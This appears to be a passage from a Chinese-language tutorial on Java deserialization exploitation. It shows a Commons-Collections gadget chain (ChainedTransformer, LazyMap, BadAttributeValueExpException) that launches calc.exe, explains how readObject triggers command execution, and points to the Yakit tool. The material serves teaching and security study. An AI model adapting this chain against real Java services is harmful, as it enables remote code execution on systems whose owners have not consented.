 ```java
                new Class[] {String.class}, 
                new Object[] {"calc.exe"}) // 实际攻击会替换为恶意命令
        };
        
        // 2. 包装成ChainedTransformer
        Transformer transformerChain = new ChainedTransformer(transformers);
        
        // 3. 使用LazyMap触发漏洞
        HashMap<String, String> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, transformerChain);
        
        // 4. 通过BadAttributeValueExpException触发反序列化
        BadAttributeValueExpException payload = new BadAttributeValueExpException(null);
        Field valField = payload.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(payload, lazyMap);
        
        // 5. 序列化payload对象（实际攻击中发送给目标）
        // ByteArrayOutputStream bos = new ByteArrayOutputStream();
        // ObjectOutputStream oos = new ObjectOutputStream(bos);
        // oos.writeObject(payload);
        // oos.close();
    }
}
```

整个过程的关键是**反序列化时的 “隐式方法调用”**：
`ObjectInputStream.readObject()` → 重建`BadAttributeValueExpException` → 访问`val`字段（`LazyMap`） → 触发`LazyMap.get()` → 执行`ChainedTransformer`调用链 → 执行系统命令。

#### 工具利用

#### Yakit

-Yakit https://yaklang.com/    

![image-20250818201836064](./images/Java反序列化/image-20250818201836064.png)

